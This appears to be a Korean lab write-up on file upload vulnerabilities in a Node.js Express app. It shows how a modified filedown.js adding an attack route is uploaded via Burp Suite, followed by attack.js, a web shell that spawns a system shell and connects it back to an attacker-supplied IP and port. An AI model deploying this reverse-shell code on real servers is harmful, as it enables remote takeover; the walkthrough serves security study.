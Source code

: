 # 파일 업로드 공격

## 1. 파일 업로드 취약점이란 ?

+ 파일 업로드 취약점은 웹 서버가 제공하는 파일 업로드 기능을 이용하여 확장자 검증 미흡으로 서버에 악의적인 파일이 업로드가 가능한 취약점이다. 
+ 공격자는 서버에서 실행될 수 있는 파일을 업로드하여 공격자가 원하는 기능을 동작하게 한다. 적절한 검증 없이 파일 업로드 기능을 제공할 때 발생하는 취약점이므로 확장자에 대한 검증을 적용해야 한다.


## 2. 공격 방법

파일 다운로드 공격에서 다운받은 filedown.js 파일의 소스코드를 분석하여 아래와 같은 라우터 기능을 추가한다.
```js
router.use('/attack', require('../../../upload/attack.js'));
```
수정된 filedown.js를 Burpsuite를 통해 업로드 경로를 수정하여 업로드한다.

![수정된filedown.js업로드](https://user-images.githubusercontent.com/115529661/200773381-29c9c606-064a-4ed5-b177-f6b2c1e58fda.jpg)

filedown.js가 업로드 되는 것이 확인 되었으니 attack.js를 만들어 업로드를 진행해본다.
```js
var express = require("express");
var router = express.Router();

router.get("/", function(req, res) {
	var net = require("net"),
		cp = require("child_process"),
		sh = cp.spawn("/bin/sh",[]);     // 서버 OS가 리눅스 일 때
		sh = cp.spawn("cmd",[]);         // 서버 OS가 윈도우 일 때
	var client = new net.Socket();
	
	client.connect(req.query.port,req.query.ip,function(){
		client.pipe(sh.stdin);
		sh.stdout.pipe(client);
		sh.stderr.pipe(client);
	});
	return /a/;
});

module.exports = router;
```
![attack.js업로드](https://user-images.githubusercontent.com/115529661/200774037-1414f3da-e507-492f-ae38-5279ee5e923f.jpg)

attack.js가 정상적으로 업로드 된 것을 확인해 볼 수 있다.

업로드가 되었으니 웹쉘을 실행해본다.

![공격결과](https://user-images.githubusercontent.com/115529661/200774615-56c47ede-f23b-4de1-b6af-1f040d15fd3b.jpg)

웹쉘 실행결과 정상적으로 실행된다는 것을 확인할 수 있고, js파일 업로드와 업로드 된 파일이 실행되는 것으로 업로드 공격을 진행할 수 있다. 